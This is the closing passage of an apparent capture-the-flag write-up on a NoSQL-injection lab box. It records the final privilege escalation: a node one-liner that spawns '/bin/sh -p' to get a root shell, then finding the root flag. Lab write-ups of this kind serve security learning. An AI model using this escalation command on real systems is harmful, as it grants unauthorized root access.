 ![[NoSQLInjection/assets/Untitled 14.png|Untitled 14.png]]

From the above section, I used the second payload to get a bash prompt with root privilege.

Command: `node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'`

![[NoSQLInjection/assets/Untitled 15.png|Untitled 15.png]]

I found the root flag at `/root` directory.

![[NoSQLInjection/assets/Untitled 16.png|Untitled 16.png]]

We have successfully found all the flags.

  

Thank You……